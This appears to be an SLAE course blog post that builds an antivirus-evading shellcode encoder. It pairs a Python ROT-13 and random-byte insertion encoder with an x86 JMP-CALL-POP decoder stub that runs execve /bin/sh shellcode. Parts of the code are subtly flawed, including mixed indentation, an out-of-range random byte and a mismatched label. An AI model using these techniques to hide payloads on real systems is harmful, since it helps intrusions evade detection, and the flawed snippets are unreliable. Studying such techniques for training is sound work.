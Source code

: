 ```yaml
---
layout: post
title: SLAE 4 - Custom Encoder
date:   2019-02-28
categories: [SLAE, Assembly]
---
```

## Creating a custom encoder

A custom encoder is used in order to evade antivirus detection.  If a signature is made to detect a specific portion of code, then an encoder will obfuscate the code so that it does not recognize it as the known suspicious/malicious behavior.

Our steps are:
1. Decide on an encoding scheme to obfuscate the shellcode
2. Implement an encoder (in python) that outputs the encoded shellcode
3. Create a decoding stub (in assembly) that manipulates the shellcode, in memory, and then hands off execution to the original shellcode

The trick here is that we will need a way to grab the memory address of the shellcode which is dynamic.  There is a trick that we learned in the SLAE course that uses the JMP-CALL-POP instruction combination in order to obtain the shellcode's address during runtime.  

```asm
_start:
    jmp short get_sc
    
decode_stub:
    pop esi
    ...
    
get_sc:
    call decode_stub
    shellcode: db 0x3c,..... 
```
When we jump to get_sc, our two instructions are a call followed by our shellcode variable.  When the call is made, the next instruction's address is pushed to the stack so that when the call returns, we have the location to continue execution.  Since our first instruction when we land at our jump (decode_stub) is a pop instruction, it pops the address of our shellcode into the register of our choice!\
One big note here is that the jmp short is used in order to prevent NULL bytes!  A post about this little trick that goes in to great detail can be found here:\
https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html

With that trick described.. it's time to start deciding on an encoding scheme.

The SLAE course provides an example insertion encoding scheme.  I decided to use this idea and add another encoding idea to it.  The encoder will rot-13 the shellcode and insert 1 random byte after each byte of shellcode.

as an example,:\
0x11,0x11,0x11,0x11\
will become something similar to:\
0x1E,0xCE,0x1E,0xA2,0x1E,0x24,0x1E,0xE9,0xbb,0xbb

In order to detect the end of our shellcode, we will add 0xbb,0xbb to the end.  This idea was suggested in the course video as well.  This way we don't need to hardcode the length and can cmp to 0xbb then jump out if we have found it.

Our encoder is written in python and we are using the shellcode "execve-stack.nasm" from the provided course materials:
```python
import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

for b in bytearray(shellcode):

	encoded1 += '\\x'
	encoded1 += '%02x' % ((b+13)%256)   # add rot-13'd shellcode

# 0xfa was causing issues when compiled, create check to avoid using it. Can add values to the array initialization if more become an issue
	bad_vals = [0xfa]
    while True:
		rand = random.randint(1,256)
        if rand not in bad_vals:
	        break
            
	encoded1 += '\\x%02x' % rand        # insert random byte

	encoded2 += '0x'
	encoded2 += '%02x,' % ((b+13)%256)  # add rot-13'd shellcode
	encoded2 += '0x%02x,' % rand        # insert random byte

encoded1 += '\\xbb\\xbb'                # add our detection byte
encoded2 += '0xbb,0xbb'


print(encoded1)
print(encoded2)

print('Length: %d' % len(bytearray(shellcode)))
```
Running this we receive the output:
```
0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
We will save this for later.. 
Now to create the decoder:
We will need to set up our skeleton which will include the jmp-call-pop at the start:
```asm
global _start

section .text

_start:
    jmp short call_shellcode
    
decoder:
    pop esi

call_shellcode:
    call decoder
    ShellCode: db 0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
The steps we will take in the main decode loop are:\
1. Grab next byte to decode
2. Check for our tail (0xbb,0xbb). we check for both in a row just in case we run in to just a single instance of 0xbb
3. If tail found, pass execution
4. Decode ROT-13 for the byte
5. Place decoded byte into proper position
6. Increase counters (our pointer to insertion location, and our pointer to the next encoded byte)
7. Loop

```asm
decoder:
	pop esi			; end of jmp-call-pop
	lea edi, [esi]		; set up first insertion byte address
	xor eax, eax
	xor ebx, ebx
decode:
	mov bl, byte [esi + eax]	; sc addr + insert count - this selects the next encoded shellcode byte
	cmp bl, 0xbb			; check for first byte of shellcode tail
	jnz cont
	cmp byte [esi + eax + 1], 0xbb	; check for 2nd byte of shellcode tail
	jz Shellcode			; end of shellcode - hand off execution
cont:
	sub bl, 13			; decode rot-13
	mov byte [edi], bl		; replace byte with the decoded byte
	inc edi				; increase edi to point to next byte to replace
	add al, 2			; increase al by 2 to the next inserted byte
	jmp short decode		; start loop over

call_shellcode:
```
bl stores \[esi + eax\], which translates to \[shellcode_addr + insertion byte counter\].  Since we are alternating between shellcode bytes and random inserted bytes, we increase al by 2 for each iteration.  This lets us skip the inserted byte and grab each byte of the encoded shellcode.\
We then subtract 13 from the encoded byte in order to obtain the original shellcode byte, then we move it into \[edi\]. edi is our placeholder for where the next byte of decoded shellcode should go.  
